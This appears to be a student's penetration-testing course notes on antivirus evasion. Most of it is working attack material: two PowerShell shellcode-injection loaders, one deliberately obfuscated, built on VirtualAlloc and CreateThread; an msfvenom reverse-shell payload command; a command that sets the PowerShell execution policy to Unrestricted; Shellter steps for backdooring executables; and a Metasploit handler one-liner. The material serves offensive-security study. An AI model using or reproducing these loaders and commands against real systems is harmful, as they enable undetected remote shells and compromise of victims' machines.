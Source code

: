 ## Section 3 AV Evasion In Practice
### 14.3.2 Evading AV With Thread Injection
- Basic templated script for in-memory injection
	- x86 powershell execution
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
	Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
- More covert version
	- x86 powershell execution
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = 
	Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$var1 = <place your shellcode here>;

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
- Save the above script as a .ps1 file
- Command to generate the shellcode for the above script
	- x86 powershell
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f powershell -v sc
```
- Can also use ps_encoder.py in /offsec folder
- How to get the execution policy for powershell scripts 
```
Get-ExecutionPolicy -Scope CurrentUser
```
- Set execution policy globally for current user
```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```
### 14.3.3 Automating The Process
- Process can be automated with shellter
```
shellter
```
- Add PE target (location of the exe file)
```
PE Target: <location of executable file>
```
- Follow the remaining instructions
- MSFConsole multi-handler one-liner
```
msfconsole -x "use exploit/multi/handler;set payload windows/shell_reverse_tcp;set LHOST <IP>;set LPORT <PORT>;run;"
```
### Veil Framework
- Veil is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.
- By default, powershell payloads are generated as .bat files which can be executed when clicked
- use Evasion to generate the payload
```
veil
```


## Exercises To-Do

- [ ] 2.1.1 (page 20)